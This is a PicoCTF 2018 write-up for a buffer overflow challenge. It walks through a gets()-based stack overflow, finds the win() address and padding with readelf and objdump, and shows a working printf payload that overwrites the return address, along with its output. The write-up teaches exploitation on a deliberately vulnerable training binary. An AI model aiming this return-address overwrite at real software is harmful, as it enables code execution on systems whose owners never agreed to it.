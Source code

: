 ```yaml
---
title:  PicoCTF 2018 - Buffer Overflow 1
description: Writeups for PicoCTF 2018 Binary Exploitation Challenges.
hide_index: true
image:
  path: /img/reference/pico-ctf-2018-00000.png
  width: 1024
  height: 512
  thumb: /img/reference/pico-ctf-2018-00000.thumb.png
  alt: Linux Terminal
---
```


# PicoCTF 2018 - Buffer Overflow 1

> **Note**: This article is part of our [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}).

## Spot the Bug

Once again, finding the bug is easy, as it's almost identical to the [last challenge]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits/buffer-overflow-0.md %}):

```c
#define BUFSIZE 32

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```

The buffer once again lives on the stack and has a fixed size (32 bytes). There are no other variables on the stack. The `gets` function is used, which is highly **unsafe**, as it will copy characters from `stdin` until either a newline character is found or the *end-of-file* is reached, making it trivial to overflow the `buf` variable and overwrite anything following it in memory, including the stack frame's preserved `ebp` register and *return address*.

## Strategy

Now that we found the bug, we need a plan to use that bug in a way that will allow us to capture the flag. They've taken off the training wheels *slightly* here, as there is no segfault handler registered. However, there **is** a handy dandy function that will print out the flag if called:

```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```

Since we no longer have a default-crash handler to fallback on, we will have to actually change the flow of execution so that the `win()` function gets called. Here, the `win()` function has been compiled into the program and exists within the `.text` segment of the binary at a fixed address (ASLR does not apply as the program is not compiled as a [Position-independent Executable](https://en.wikipedia.org/wiki/Position-independent_code) or *PIE*). **Note**: if you install [`pwntools`](https://github.com/Gallopsled/pwntools) you can run `checksec` from your shell to quickly check the security properties of binaries, including whether they are compiled as PIE. Use `readelf -s` or `objdump -t` to display the address of all the exported symbols within the binary:

```
$ checksec ./vuln
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

$ readelf -s ./vuln | grep win
    67: 080485cb   100 FUNC    GLOBAL DEFAULT   14 win
```
{:.contains-term}

In this case, the code for the function `win()` begins at the address `0x080485cb`. 

If you were paying attention during [buffer overflow 0]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits/buffer-overflow-0.md %}) you might have a good idea of what to do now, so go and attempt the problem located at `/problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613` on the shell server.

## Background Info

You should recall from [buffer overflow 0]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits/buffer-overflow-0.md %}) that the stack looks something like this after calling `vuln()`:

| lower addresses | 🡆 | 🡆 | higher addresses |
| --- | :---: | :---: | --- |
| `buf[32]` | &lt; padding &gt; | &lt;old ebp&gt; | &lt;*return address*&gt; |

In order to change the flow of execution, what we need to do is overwrite the *return address* so that when the `ret` instruction is called, the execution continues at the memory address *we want* (instead of whatever instructions followed the call to `vuln()`). We know there are 32 bytes allocated for the buffer, but we don't yet know for sure how many padding bytes there are.

To figure it out, we once again peak at the assembly code for `vuln()` using `objdump -M intel -S ./vuln`:

```nasm
push   ebp
mov    ebp,esp
sub    esp,0x28
sub    esp,0xc
lea    eax,[ebp-0x28]
push   eax
call   8048430 <gets@plt>
add    esp,0x10
call   80486c0 <get_return_address>
sub    esp,0x8
push   eax
push   0x80487d4
call   8048420 <printf@plt>
add    esp,0x10
nop
leave  
ret  
```

In this case, 0x28 (40) bytes are reserved on the stack, meaning there are an additional **8 bytes of padding**.

**NOTE**: *For the curious, this value of padding is likely chosen because the compiler is required to keep 16-byte alignment on the stack as part of the **ABI**, and reserving 40 bytes in addition to the 4 bytes for the preserved `ebp` register and the 4 bytes for the **return address** results in a total of exactly 48 bytes, which is a multiple of 16. You'll notice the call to `gets` first reserves 0x0c (12) bytes off the stack, before pushing 4 more (the value of `eax`), again resulting in a perfect 16 byte alignment.*

## Exploitation

We've calculated that if we start from the beginning of `buf[]`, then there are exactly 32 (`buf`) + 8 (*padding*) + 4 (*preserved `ebp`*) bytes before the *return address*. We've also determined that we should execute the `win()` function, which is at address `0x080485cb`.

In general, we don't care about the bytes that end up in the `buf[]` variable or the `padding`. We may care about the bytes that end up in the `ebp` register (the previous challenge proved that), but in this case we know that even if returning from `win()` results in a crash, it will have already printed out the flag because the `stdout` stream has been explicitly set to non-buffered (`_IONBF`).

So, when prompted, we should provide 44 bytes of *something* (I arbitrarily chose 0x55, aka 'U', because of the repeating cycle of `0`s and `1`s when represented in binary), followed by the address of `win`. Recall, `gets()` will only copy up to the first newline ('`\n`'), and it will always add a terminating null ('`\0`').

At this point you might be temped to form a string that looks like this:

```
"UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU\x08\x04\x85\xcb"
```

However, that won't work:

```
/problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613$ printf "UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU\x08\x04\x85\xcb" | ./vuln
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0xcb850408
Segmentation fault
```
{:.contains-term}

Why did it *segfault*? The hint is in the helpful printing of the return address. Instead of jumping to `0x080485cb`, the program is jumping to `0xcb850408`. The reason is that memory on many machines, including x86 and x86-64 is little-endian. That means that when storing values larger than 1 byte, the bytes are arranged so that the least-significant byte is stored first, followed by the next least-significant, and so on. The least-significant byte of `0x080485cb` is `0xcb`, and that byte should appear first, followed by `0x85`, `0x04`, and `0x08`. Let's try it:

```
/problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613$ printf "UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU\xcb\x85\x04\x08" | ./vuln
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{===REDACTED===}Segmentation fault (core dumped)
```
{:.contains-term}

Eh voilà! You've successfully exploited a buffer-overflow vulnerability. Good Job. Head back to our  [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}) to continue with the next challenge.
